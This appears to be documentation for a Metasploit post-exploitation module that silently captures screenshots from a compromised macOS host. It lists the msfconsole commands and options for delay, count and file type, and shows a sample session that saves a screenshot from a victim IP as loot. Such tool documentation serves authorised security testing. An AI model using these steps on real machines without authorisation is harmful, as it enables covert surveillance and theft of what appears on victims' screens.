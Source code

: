 ## Vulnerable Application

This module takes screenshots of target desktop and automatically downloads them.

## Verification Steps

  1. Start msfconsole
  2. Get a shell, user level is fine
  3. Do: ```use post/osx/capture/screen```
  5. Do: ```set session #```
  5. Do: ```run```
  6. You should have a screenshot saved to loot

## Options

  **COUNT**
  The number of screenshots to collect.  Default is `1`.

  **DELAY**
  Interval between screenshots in seconds. 0 for no delay.  Default is `10`.

  **EXE_PATH**
  Path to remote screencapture executable.  Default is `/usr/sbin/screencapture`

  **FILETYPE**
  File format to use when saving a snapshot (Accepted: png, gif).  Default is `png`.

  **TMP_PATH**
  Path to remote temp directory.  Default is `/tmp/<random>`

## Scenarios

### User level shell on OSX 10.14.4

```
msf post(osx/capture/keylog_recorder) > use post/osx/capture/screen 
msf post(osx/capture/screen) > set session 1
session => 1
msf post(osx/capture/screen) > run

[*] Capturing 1 screenshots with a delay of 10 seconds
[*] Screen Capturing Complete
[*] Use "loot -t screen_capture.screenshot" to see file locations of your newly acquired loot
[*] Post module execution completed
msf post(osx/capture/screen) > loot -t screen_capture.screenshot

Loot
====

host           service  type                       name              content     info        path
----           -------  ----                       ----              -------     ----        ----
222.222.2.222           screen_capture.screenshot  screenshot.0.png  image/png   Screenshot  /loot/20190414205923_default_222.222.2.222_screen_capture.s_194117.png
```
